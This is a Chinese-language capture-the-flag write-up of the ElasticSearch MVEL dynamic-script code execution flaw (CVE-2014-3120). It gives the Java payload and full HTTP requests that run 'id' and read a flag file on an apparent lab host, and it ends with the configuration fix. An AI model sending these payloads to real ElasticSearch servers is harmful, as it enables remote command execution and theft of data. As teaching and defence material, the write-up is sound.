


# ElasticSearch 命令执行漏洞（CVE-2014-3120）


## 1.&emsp;漏洞描述

* 漏洞描述：这个漏洞的主要原因是ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可以执行java代码，所以我们可以直接执行任意代码。
* 漏洞编号：CVE-2014-3120
* 漏洞等级：高危
* 影响版本：ElasticSearch < 1.2

## 2.   漏洞简介

这个漏洞实际上非常简单，ElasticSearch有脚本执行([scripting](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html))的功能，可以很方便地对查询出来的数据再加工处理。

ElasticSearch用的脚本引擎是[MVEL](https://github.com/mvel/mvel)，这个引擎没有做任何的防护，或者沙盒包装，所以直接可以执行任意代码。

而在ElasticSearch里，默认配置是打开动态脚本功能的，因此用户可以直接通过http请求，执行任意代码。

## 3.&emsp;漏洞分析

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

MVEL执行命令的代码如下：

```java
import java.io.*;
new java.util.Scanner(Runtime.getRuntime().exec("id").getInputStream()).useDelimiter("\\A").next();
```

将Java代码放入json中：

```json
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
  }
```

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```http
POST /website/blog/ HTTP/1.1
Host: 218.2.197.232:21286
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 364

{
  "name": "xiaohuihui"
}
```

然后，执行任意代码：

```http
POST /_search?pretty HTTP/1.1
Host: 218.2.197.232:21286
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 364

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
  }

```



## 4.&emsp;题解

构造POC读出题目中的flag：

```http
POST /_search?pretty HTTP/1.1
Host: 218.2.197.232:21286
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 364

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"cat /tmp/flag.txt\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
  }

```

利用burpsuite转发数据包，得到flag：



## 5.&emsp;修复方案

关掉执行脚本功能，在配置文件elasticsearch.yml里为每一个结点都加上：

```xml
script.disable_dynamic: true
```

官方会在1.2版本默认关闭动态脚本。
